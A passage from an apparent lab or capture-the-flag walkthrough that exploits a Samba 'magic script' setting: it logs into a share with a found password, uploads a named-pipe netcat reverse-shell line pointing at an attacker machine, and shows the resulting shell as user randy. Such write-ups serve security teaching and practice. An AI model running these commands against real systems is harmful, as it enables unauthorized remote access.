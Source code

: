 **Login to SMB share using randy's password (**`pogiako`**):**

```bash
└─$ smbclient \\\\192.168.5.122\\SYSADMIN --user=randy
Enter WORKGROUP\randy's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Apr 10 18:13:45 2022
  ..                                  D        0  Sun Apr 10 17:36:23 2022
  reminder.txt                        N      193  Sun Apr 10 17:59:06 2022
  smb.conf                            N     9097  Sat Apr  9 13:32:20 2022
  help.txt                            N     4663  Sun Apr 10 17:59:43 2022

                8704372 blocks of size 1024. 434040 blocks available
```

**View the contents of the** `smb.conf` ** file use** `get` **command to download the file) to discover a** `magic script` **is defined in the smb server config:**

```bash
[SYSADMIN]

path = /home/randy/smbshare
valid users = randy
browsable = yes
writeable = yes
read only = no
magic script = smbscript.elf
guest ok = no
```

**In KALI, Create a bash script file named** `smbscript.elf` **containing the following [[Reverse Shell]] command (replace KALI_IP):**

```bash
mknod backpipe p; nc KALI_IP 31337 0<backpipe | /bin/bash 1>backpipe
```

**Start a netcat listener in KALI to receive the [[Reverse Shell]]:**

```bash
nc -nvlp 31337
```

**Then, in the SMB client, put the** `smbscript.elf` **into the** `SYSADMIN` **share to launch the [[Reverse Shell]]:**

```bash
smb: \> put smbscript.elf 
NT_STATUS_IO_TIMEOUT closing remote file \smbscript.elf
```

**We now have a working interactive command shell:**

```bash
nc -nvlp 31337
listening on [any] 31337 ...
connect to [192.168.5.10] from (UNKNOWN) [192.168.5.122] 38242
id
uid=1000(randy) gid=1000(randy) groups=1000(randy),133(sambashare)
```

